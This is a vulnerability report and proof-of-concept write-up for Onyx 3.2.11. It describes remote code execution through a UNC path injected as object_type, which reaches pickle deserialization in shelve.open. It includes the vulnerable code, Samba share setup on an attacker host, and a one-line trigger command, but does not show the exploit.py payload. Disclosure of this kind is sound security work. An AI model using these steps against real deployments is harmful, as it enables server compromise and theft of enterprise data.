


# `Onyx` - Version `3.2.11` / Remote Code Execution (RCE) via Insecure Deserialization based on Absolute Path Injection (UNC) in `shelve.open` 

* https://github.com/onyx-dot-app/onyx
* https://onyx.app/

## Introduction

The Salesforce connector component relies on `shelve` to cache and manage database objects. The system dynamically constructs file paths for the shelf databases based on the `object_type` attribute.

**Below are one (1) way to reproduce RCE in `Onyx` using an `SMB` share controlled by an attacker, without local intervention by a third party to modify files that allow code execution during the deserialization process.**

**For this PoC, two (2) different devices were used to simulate the interaction between an attacking machine (Raspberry Pi with IP 192.168.1.90) and a victim machine (Windows with IP 192.168.1.88).**

## Vulnerability description

The vulnerability stems from the unsafe use of `os.path.join(BASE_DATA_PATH, object_type)`. In Python, if a component passed to `os.path.join` is an absolute path, all previous components are discarded. 
An attacker supplying a Windows UNC path (e.g., `\\attacker.com\share\payload`) as the `object_type` forces the application to build the shelf database path on the attacker's remote SMB server, bypassing the local `BASE_DATA_PATH`.

The vulnerability exists because `shelve_utils.py` allows redirecting the path towards the attacker, and `shelve_functions.py` blindly executes whatever is found at that path. If either of these two files were programmed securely (for instance, if the first validated that UNC paths are not input, or if the second used a safe format like JSON instead of `shelve`/`pickle`), this specific vulnerability would not exist.

### The vulnerable code in `onyx\backend\onyx\connectors\salesforce\shelve_stuff\shelve_utils.py`:

```python
def get_object_type_path(object_type: str) -> str:
    """Get the directory path for a specific object type."""
    type_dir = os.path.join(BASE_DATA_PATH, object_type)
    os.makedirs(type_dir, exist_ok=True)
    return type_dir
```

### The vulnerable code in `onyx\backend\onyx\connectors\salesforce\shelve_stuff\shelve_functions.py`:

```python
def get_record(object_id: str, object_type: str | None = None) -> SalesforceObject | None:
    ...
    shelf_path = get_object_shelf_path(object_type)
    with shelve.open(shelf_path) as db:
        if object_id not in db:
            return None
        data = db[object_id] # Triggers pickle.loads() on the value
```

The vulnerability directly and literally depends on both files (`shelve_utils.py` and `shelve_functions.py`), as they are the exact points where the security flaw exists in the actual code of the Onyx project (specifically in its Salesforce connector).

To understand why they depend on each other for the vulnerability to exist, one must look at how the execution is chained (the path from the Source to the Sink):

1. **The Injection Facilitator (Path Injection in `shelve_utils.py`)**: The `get_object_type_path` function takes the `object_type` argument and uses `os.path.join(BASE_DATA_PATH, object_type)`. In Python, if the second argument of `os.path.join` is an absolute path (or a UNC path on Windows like `\\192...`), the function completely discards the first argument (`BASE_DATA_PATH`). This is what allows the attacker to "hijack" the path and point it to their own server instead of the project's local folder. Without this validation error, traffic could not be redirected.

2. **The Execution Detonator (Deserialization Sink in `shelve_functions.py`)**: Being able to redirect a path would be useless if the program didn't do anything dangerous with it. However, in `shelve_functions.py`, the `get_record` function takes that newly constructed malicious path and passes it directly to `shelve.open(shelf_path)`. The `shelve` library works underneath using `pickle`. When the code executes `data = db[object_id]`, it extracts the bytes from the attacker's file and automatically executes `pickle.loads()` on them, detonating Remote Code Execution (RCE).

## Technical Impact Analysis

### Project Purpose & Context

Onyx is a robust AI-powered search and assistant platform designed to integrate with various organizational data sources, including Salesforce, Google Drive, and Slack, to provide unified search and query capabilities over enterprise data. The Salesforce connector specifically caches objects to reduce external API load and speed up querying.

### Platform & Deployment Environment

Onyx is primarily deployed using Docker (or Kubernetes) in cloud environments, but its backend logic heavily interacts with Python serialization mechanics. When deployed on Windows environments (either natively or within Windows-based containers/VMs used for processing), it becomes uniquely susceptible to UNC path resolution via native OS APIs.
### Comprehensive Risk Assessment

The vulnerability stems from the unsafe use of `os.path.join(BASE_DATA_PATH, object_type)`. If an absolute path (or UNC path on Windows) is passed as `object_type`, `os.path.join` discards the `BASE_DATA_PATH`. This allows an attacker to forcefully redirect `shelve.open` to read a malicious database hosted on a remote SMB share. When `shelve` queries the database, it intrinsically executes `pickle.loads()` on the extracted value, leading to critical, unauthenticated Remote Code Execution (RCE) and full system compromise.

## Attack Scenario

### Who wants to exploit a particular vulnerability?

Threat actors ranging from initial access brokers to advanced persistent threats (APTs) seeking a foothold into enterprise internal networks. The vulnerability is highly attractive because it leverages standard data synchronization/fetching logic (Salesforce integrations) to bypass perimeter defenses.

### For what gain?

The primary gain is Remote Code Execution (RCE) on the Onyx backend server. From there, attackers can pivot into the broader internal network, access connected enterprise data stores (stealing indexed data, PII, and API keys for Slack/Google Workspace/Salesforce), or establish persistent backdoors within the AI infrastructure.

### In what way?

An attacker sets up a public SMB share hosting a malicious `data.shelf` database carrying a Python reverse-shell payload. By interacting with a public or authenticated API endpoint that calls `get_record()`, the attacker injects an absolute UNC path (`\\attacker.com\share`) as the `object_type`. The application blindly connects to the remote share, opens the shelf, and deserializes the malicious payload when attempting to extract data, instantly executing the attacker's code.

# Reproduction steps

## On the Raspberry (attacker) - IP 192.168.1.90

```bash
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
kw0@kw0l4b:~ $
```

### Shared Resource Configuration (SMB):

1. **Install Samba**: `sudo apt update && sudo apt install samba samba-common-bin -y`
2. **Prepare the attack directory**:

```bash
mkdir ~/lab_attack
chmod 755 /home/kw0  # Allows Samba to access the HOME
chmod -R 777 ~/lab_attack
```

1. **Configure Samba**: Add to the end of `/etc/samba/smb.conf`:

```ini
[lab_share]
path = /home/kw0/lab_attack
read only = no
guest ok = yes
```

**Payload Generation on the Raspberry**:

Run the specialized `exploit.py` script to generate `data.shelf.bak`, `data.shelf.dat` and `data.shelf.dir` files directly in the shared path:

```bash
python exploit.py
```



## On Windows (victim) - IP 192.168.1.88

```
(.venv) PS L:\Deserializer\onyx> Get-NetIPAddress -AddressFamily IPv4 | Where-Object PrefixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress
192.168.1.88
(.venv) PS L:\Deserializer\onyx>
```

1. Create a `.venv`, activate it, and install the latest updated version (`3.2.11`) of `Onyx` using `uv sync` and `uv run playwright install` after cloning the `Onyx` repository and moved into it (`cd onyx`).
2. Enable the SMB share: `net use Z: \\192.168.1.90\lab_share /persistent:no`
3. And then trigger the RCE executing `poc.py` or just with the following command:

```
 python -c "from onyx.connectors.salesforce.shelve_stuff.shelve_functions import get_record; get_record(object_id='malicious_key', object_type=r'\\192.168.1.90\lab_share')"
```


